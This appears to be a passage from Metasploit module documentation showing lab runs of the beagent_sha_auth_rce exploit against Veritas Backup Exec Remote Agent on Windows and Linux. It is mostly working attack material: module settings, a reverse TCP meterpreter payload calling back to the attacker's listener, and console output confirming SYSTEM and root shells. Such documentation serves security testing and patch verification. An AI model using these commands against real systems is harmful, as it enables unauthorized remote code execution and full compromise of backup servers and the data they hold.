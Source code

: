 ```
[*] 192.168.123.147:10000 - Passing SHA authentication
[*] 192.168.123.147:10000 - Uploading payload with NDMP_FILE_WRITE packet
[*] Sending stage (175686 bytes) to 192.168.123.147
[*] Meterpreter session 5 opened (192.168.123.1:4444 -> 192.168.123.147:49835) at 2022-09-22 15:23:19 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-BE1QFC9
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.123.147 - Meterpreter session 1 closed.  Reason: User exit
```

### Linux; Backup Exec 16.0 (Backup Exec Remote Agent, revision 9.2)
```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 172.16.199.133
rhosts => 172.16.199.133
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set target 1
target => 1
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.133:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.133:10000 - Checking vulnerability
[*] 172.16.199.133:10000 - Connecting to BE Agent service
[*] 172.16.199.133:10000 - Getting supported authentication types
[*] 172.16.199.133:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5)
[*] 172.16.199.133:10000 - BE agent revision: 9.2
[+] 172.16.199.133:10000 - The target appears to be vulnerable. SHA authentication is enabled
[*] 172.16.199.133:10000 - Exploiting ...
[*] 172.16.199.133:10000 - Connecting to BE Agent service
[*] 172.16.199.133:10000 - Enabling TLS for NDMP connection
[*] 172.16.199.133:10000 - Passing SHA authentication
[*] 172.16.199.133:10000 - Uploading payload with CmdStager
[*] 172.16.199.133:10000 - Command Stager progress -  44.15% done (362/820 bytes)
[*] Sending stage (3020772 bytes) to 172.16.199.133
[*] 172.16.199.133:10000 - Command Stager progress - 100.00% done (820/820 bytes)
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.133:55062) at 2022-09-22 15:17:01 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : debian.test.com
OS           : Debian 9.13 (Linux 4.9.0-19-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > Interrupt: use the 'exit' command to quit
```